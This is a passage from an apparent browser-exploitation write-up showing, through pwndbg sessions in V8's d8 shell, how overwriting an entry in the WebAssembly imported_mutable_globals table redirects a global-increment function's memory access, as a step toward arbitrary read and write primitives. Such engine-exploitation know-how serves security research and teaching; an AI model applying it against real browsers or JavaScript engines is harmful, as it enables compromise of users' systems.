 When reading from the first entry in `imported_mutable_globals` we can see it holds a value of `0`.
Continuing so the `incGlobal` function is called, we can see that this value has been updated to
`1`. Which is what we'd expect. 

```
pwndbg> x/gx 0x55afdf05e3e0
0x55afdf05e3e0:	0x00001f8500001000
pwndbg> x/gx 0x00001f8500001000
0x1f8500001000:	0x0000000000000000
pwndbg> c
Continuing.

pwndbg> x/gx 0x00001f8500001000
0x1f8500001000:	0x0000000000000001
```

Let's see what happens when we completely corrupt the first pointer in the
`imported_mutable_globals` table. That is, not the `imported_mutable_globals` pointer itself,
but the first entry within it.

In the example below, I replace this entry with a pointer to `0x4141414141414141`, so we should
see a segmentation fault if we try to access it.

```
pwndbg> set *(uint64_t *)(0x56394c0dc3d0) = 0x4141414141414141
pwndbg> x/gx 0x56394c0dc3d0
0x56394c0dc3d0:	0x4141414141414141
pwndbg> c
Continuing.

Thread 1 "d8" received signal SIGSEGV, Segmentation fault.
```

We receive a segmentation fault when trying to read from the location in memory we specified. In
the disassembly below, the next step was to incremement the value retrieved by `1`, before later
storing it back into the location in memory it was retrieved from.

This is exactly the behaviour we'd expect to see from a function that increments a global
variable.

```
 ► 0x2d0f6f7876a2    mov    ecx, dword ptr [rax]
   0x2d0f6f7876a4    add    ecx, 1
   0x2d0f6f7876a7    mov    rax, qword ptr [rsi + 0x57]
   0x2d0f6f7876ab    mov    rax, qword ptr [rax]
   0x2d0f6f7876ae    mov    dword ptr [rax], ecx
```

```
pwndbg> p/x $rax
$1 = 0x4141414141414141
```


## An Arbitrary Read Primitive

So the question becomes, how do we turn this functionality into arbitrary read or write
primitives?
